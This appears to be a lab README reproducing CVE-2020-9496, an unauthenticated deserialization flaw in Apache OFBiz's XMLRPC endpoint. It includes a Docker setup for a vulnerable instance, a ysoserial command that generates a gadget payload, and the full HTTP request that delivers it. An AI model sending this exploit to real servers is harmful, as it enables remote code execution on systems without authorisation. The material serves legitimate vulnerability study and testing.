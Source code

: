 # Unsafe deserialization of XMLRPC arguments in ApacheOfBiz (CVE-2020-9496)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

OfBiz exposes an XMLRPC endpoint at `/webtools/control/xmlrpc`. This is an unauthenticated endpoint since authentication is applied on a per-service basis. However, the XMLRPC request is processed before authentication. As part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands on any OfBiz server with same privileges as the servlet container running OfBiz.

References:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## Vulnerable environment

Executing following command to start an Apache OfBiz (17.12.01):

```
docker-compose up -d
```

After a short wait, you can see the login page at `https://your-ip/myportal/control/main`.

## Vulnerability Reproduce

There is no error message in response by default, we can't reproduce the vulnerability using the POC of [reference link 2](https://github.com/dwisiswant0/CVE-2020-9496), so ask [ysoserial](https://github.com/frohoff/ysoserial) for help.

Generate the CommonsBeanutils1 payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

Replace the `[base64-payload]` and send the request:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` is succesful executing in the container:

![](3.png)